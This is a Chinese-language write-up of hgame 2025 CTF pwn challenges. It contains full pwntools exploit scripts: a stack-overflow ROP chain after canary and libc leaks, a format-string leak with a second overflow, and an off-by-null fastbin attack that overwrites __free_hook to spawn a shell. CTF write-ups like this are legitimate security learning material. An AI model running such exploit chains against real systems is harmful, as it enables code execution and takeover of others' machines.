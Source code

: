 # hgame 2025 pwn writeup(部分)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/IMG_718720250205-203749.jpg)

os：太久没做了老犯蠢

## w1

#### ***counting petals\***

漏洞在于向v7中读取数据的过程中存在溢出可以覆盖v8，从而修改v8为某个大于16的值，最后泄露地址，然后在第二次循环时故技重施直接溢出弹shell

![img](images/hgame1.png)

```
from pwn import *
#io = process('./vuln')
io = remote('119.45.167.173',31519)
libc = ELF('libc.so.6')
elf = ELF('./vuln')
context(os='linux',arch='amd64',log_level='debug')
log.info("first times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'99')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'429496729699')
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.recvuntil(b' + 429496729699 + ')
canary = int(io.recvuntil(b' ',drop=True),10) 
io.recvuntil(b'+ 1 + ')
libc_base = int(io.recvuntil(b' ',drop=True),10) -0x7fcf70b1dd68 + 0x7fcf70af4000 -0x28
log.info("libc_base : "+str(hex(libc_base)))

sys_addr = libc.symbols['system']+libc_base
binsh = next(libc.search(b'/bin/sh')) + libc_base
pop_rdi_ret = 0x2a3e5 +  libc_base
ret = 0x29139 + libc_base 
log.info("second times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'21')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'68719476758')
io.sendlineafter(b' : ',str(canary).encode())
io.sendlineafter(b' : ',b'0')
io.sendlineafter(b' : ',str(pop_rdi_ret).encode())
io.sendlineafter(b' : ',str(binsh).encode())
io.sendlineafter(b' : ',str(ret).encode())
io.sendlineafter(b' : ',str(sys_addr).encode())
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.interactive()
```

![img](images/hgame2.png)

#### ***ezstack\***

虚拟机配docker一直起不来，大概说下思路，感觉应该是先栈迁puts(puts@got)然后再迁一次ORW

#### ***format\***

漏洞在于vuln函数整数解析错误可以溢出，溢出可以覆盖format[4]、v5、v6、i，然后直接改返回地址到循环内最后一次printf的地址，这样就可以利用我们覆盖的数据泄露libc地址，最后再通过vuln函数溢出

![img](images/hgame3.png)

```
from pwn import *
#io = process('./vuln')
io = remote('node2.hgame.vidar.club',30453)
elf = ELF('./vuln')
libc = ELF('libc.so.6')
context(os='linux',arch='amd64',log_level='debug')
log.info("use FMT to leak some addr")
io.sendlineafter(b' n = ',b'1')
sleep(0.1)
io.sendlineafter(b'type something:',b'%p')
sleep(0.1)
io.recvuntil(b'you type: ')
rbp_addr = int(io.recvuntil(b'y',drop=True).decode(),16)+0x7ffe63ae45d0-0x7ffe63ae4410 + 0x7ffcef294e90 -0x7ffcef292f20
log.info("leak_rbp_addr : "+str(hex(rbp_addr)))
log.info("Okay! Let's overflow!!!")
io.sendlineafter(b' n = ',b'-1')
io.send(b'a'*5+p64(rbp_addr)+p64(0x4012cf)+b'%3$p'+p32(0xffffffff)+p64(0))
io.recvuntil(b'something:')
libc_addr = int(io.recvuntil(p32(0xffffffff),drop=True).decode(),16)-0x7f1865be66dd+0x7f1865ae0000+0x3000+0x7f1947000000-0x7f1947011105
log.info("libc_addr : "+str(hex(libc_addr)))
log.info("Okay! Let's overflow the second times!!!")
sys = libc_addr + libc.symbols['system']
binsh = libc_addr + next(libc.search(b'/bin/sh'))
pop_rdi_ret = 0x2a3e5 + libc_addr
ret = 0x29139 + libc_addr
#gdb.attach(io)
log.info("rdi_addr : "+str(hex(pop_rdi_ret)))
log.info("binsh_addr : "+str(hex(binsh)))
log.info("sys_addr : "+str(hex(sys)))
pl = b'a'*4
pl += p64(rbp_addr)
pl += p64(pop_rdi_ret)
pl += p64(binsh)
pl += p64(ret)
pl += p64(sys)
io.send(pl)
io.interactive()
```

![img](images/hgame4.png)

#### ***Compress dot new\***

有时候不得不感慨deepseek是真的强，直接就把揭秘脚本嗦出来了

![img](images/hgame5.png)

![img](images/hgame6.png)

#### ***Turtle\***

需要先手动脱个壳，然后丢给deepseek

os:deepseek…, 这就是神吗…

![img](images/hgame7.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-10.png)

![img](images/hgame8.png)

***Level 24 Pacman\***

先禁止JS执行，F12看到后台两个JS文件，穿过去看到两串疑似flag的密文，base64+Fence解密

![img](images/hgame9.png)

# w2

#### **Signin2Heap\**

off-by-null + fastbin attack

```
from pwn import *
io = process('./vuln')
context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.27.so')
a = str(chr(0))
b = str(chr(1))
c = str(chr(2))
d = str(chr(3))
def add(idx,size,con):
    io.sendafter(b'Your choice:',(b+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
    io.sendlineafter(b'Size: ',str(size).encode())
    io.sendafter(b'Content: ',con)
 
def free(idx):
    io.sendafter(b'Your choice:',(c+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())

def show(idx):
    io.sendafter(b'Your choice:',(d+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
log.info("leak_addr && off_by_one")
for i in range(7):
    add(i,0xf8,b"aaaa")
add(7,0xf8,b"7")#7
add(8,0x68,b"8")#8
add(9,0xf8,b"9")#9
add(10,0x68,b'10')

for i in range(7):
    free(i)
free(8)
free(7)
add(0,0x68,b"a"*0x60+p64(0x70+0x100))
free(9)
add(7,0x78,b'aaaa')
add(8,0x78,b'aaaa')
show(0) #key
libc_addr = u64(io.recvuntil(b'\x0a',drop=True).ljust(8,b'\x00')) + 0x7f2bf4a00000 - 0x7f2bf4debca0
log.info("libc addr: "+str(hex(libc_addr)))
free_hook = libc_addr + libc.symbols['__free_hook']
sys_addr = libc_addr + libc.symbols['system']
log.info("free_hook addr: "+str(hex(free_hook)))
log.info("sys_addr addr: "+str(hex(sys_addr)))
add(15,0x68,b'b')
free(7)
free(8)
log.info("fastbins attack")
for i in range(1,8):
    add(i,0x68,b'1')
for i in range(1,8):
    free(i)
free(15)
free(10)
free(0)
for i in range(1,8):
    add(i,0x68,b'a')
add(14,0x68,p64(free_hook))
add(13,0x68,b'/bin/sh\x00')
add(12,0x68,b'/bin/sh\x00')

add(11,0x68,p64(sys_addr))
free(13)
gdb.attach(io)
io.interactive()
```

![img](images/hgame10.png)

***Where is the vulnerability\***

house of apple2 + orw
